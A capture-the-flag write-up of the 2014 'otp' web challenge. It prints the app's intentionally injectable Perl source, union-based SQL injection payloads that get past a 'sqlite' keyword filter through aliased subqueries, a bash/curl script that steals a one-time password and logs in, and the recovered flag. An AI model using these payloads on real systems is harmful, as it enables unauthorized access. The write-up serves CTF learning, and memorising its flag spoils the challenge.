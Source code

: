 ### Solved by Swappage

otp was a nice (and painful) web challenge in the advent calendar CTF 2014.

We were provided with the source code of the web application and with an URL: the objective was to successfully login to the web site to get the flag.

```perl
#!/usr/bin/env perl
use Mojolicious::Lite;
use DBI;

my $dbh = DBI->connect(
    'dbi:SQLite:dbname=./otp.db', '', '',
    +{
        RaiseError     => 1,
        sqlite_unicode => 1,
    }
);
app->helper(dbh => sub { $dbh });

get '/' => sub {
    my $c = shift;
    my ($token, $pass) = gen_otp();
    my $expire = time() + 10;
    $c->dbh->do('INSERT INTO otp VALUES (?, ?, ?)', undef, $token, $pass, $expire);
    $c->render('index', token => $token);
};

post '/' => sub {
    my $c = shift;
    my $token = $c->req->param('token');
    # tiny firewall, but powerful :P
    if ($token =~ /sqlite/i) {
        $c->render('error', message => "no hack.");
        return;
    }
    my $time = time();
    my ($expire) = $c->dbh->selectrow_array(
        "SELECT ###CENSORED### FROM otp WHERE ###CENSORED### = '$token' AND ###CENSORED### < $time",
    );
    if ($expire) {
        $c->render('error', message => "otp expired at $expire");
    } else {
        my $pass = $c->req->param('pass');
        my ($ok) = $c->dbh->selectrow_array(
            'SELECT 1 FROM otp WHERE ###CENSORED### = ? AND ###CENSORED### = ?', undef, $token, $pass,
        );
        $c->render('auth', ok => $ok);
    }
    $c->dbh->do(
        'DELETE FROM otp WHERE ###CENSORED### = ?', undef, $token
    );
};

sub gen_otp {
    open my $fh, '<:raw', '/dev/urandom' or die $!;
    read $fh, my $token, 8;
    $token = unpack 'H*', $token;
    read $fh, my $pass, 16;
    $pass = unpack 'H*', $pass;
    return ($token, $pass);
}

app->start;
__DATA__

@@ index.html.ep
% layout 'default';
% title 'OTP';

<form method="POST">
  <input type="hidden" name="token" value="<%= $token %>" />
  <input type="text" name="pass" />
  <input type="submit" value="auth" />
</form>

@@ auth.html.ep
% layout 'default';
% title 'Authentication | OTP';

% if ($ok) {
<p>authentication succeeded.<br />the flag is: ###CENSORED###</p>
% } else {
<p>authentication failed.</p>
% }

@@ error.html.ep
% layout 'default';
% title 'Error | OTP';

<p><%= $message %></p>

@@ layouts/default.html.ep
<!DOCTYPE html>
<html>
  <head>
    <title><%= title %></title>
  </head>
  <style>
body, input {
  color: #fff;
  background: #333;
  font-family: monospace;
  font-size: 150%;
}
.container {
  width: 100%;
  margin-top: 50px;
  text-align: center;
}
  </style>
  <body>
<div class="container">
<%= content %>
</div>
  </body>
</html>

```

To log in the web application we need to submit a password, paired with the token we are provided as an hidden field in the form, and this pair of credentials is valid for 10 seconds: if the token has expired we won't be able to log in, so what we need to do is to find a way to generate a token and exfiltrate the password generated by the application for that specific token, before it expires.

As it's possible to observe from the source code, the query at line 31 is dynamic, so it's possible to perform a SQL injection attack against the application.

By sending a tampered token value in the POST request, it's possible to notice that we are facing a union based injection attack: infact if we send something like this:

    token=' UNION SELECT 1;

we would be presented with the following output in the web page

```html
    <p>otp expired at 1</p>
```

It would at this point be easy to enumerate the database structure, tables and columns to exfiltrate some valid data, but it would have been too easy; at line 25 we can see

```perl
        if ($token =~ /sqlite/i) {
        $c->render('error', message => "no hack.");
        return;
    }
```

which makes this challenge a real pain. Infact, as the comment suggets, this is a really tiny yet powerful firewall, because to enumerate the database, we'd need to access the sqlite_master table, where metadata about table structure are stored, but guess what? this is filtered and we cant.

So, no table enumeration: we need to find an alternative way to exfiltrate a valid password to log in.

I'm not that good at sql injection attacks, and in fact it took me a while to figure this out, but after a lot of trial and error i learned that column names are not needed to read data from them

I've tried the following injection query and eventually it resulted in the last generated password correctly exfiltrated.

    token=' UNION SELECT pass FROM (SELECT 1 AS expire, 2 AS pass, 3 AS token UNION SELECT * FROM otp order by token desc LIMIT 0,1);

```html
    <p>otp expired at 1bffa01d220d8d69f102dc08b07ba199</p>
```

now all i needed was to be fast enaugh to exfiltrate a valid password and login within 10 seconds.

bash and curl came to the rescue, i put togeder this dirty and terrible script that helped me to login and get the flag

```bash
    #!/bin/bash

    TOKEN=$(curl http://otp.adctf2014.katsudon.org | grep input | grep token | awk -F '"' '{print $6}')
    PASS=$(curl http://otp.adctf2014.katsudon.org -d "token=' UNION SELECT pass FROM (SELECT 1 AS expire, 2 AS pass, 3 AS token UNION SELECT * FROM otp order by token desc LIMIT 0,1);&pass=" | grep expired | awk -F ' ' '{print $4}' | awk -F '<' '{print $1}')

    echo $TOKEN
    echo $PASS

    curl http://otp.adctf2014.katsudon.org -d "token=$TOKEN&pass=$PASS"
```


```html
<p>authentication succeeded.<br />the flag is: ADCTF_all_Y0ur_5CH3ma_ar3_83L0N9_t0_u5</p>
```
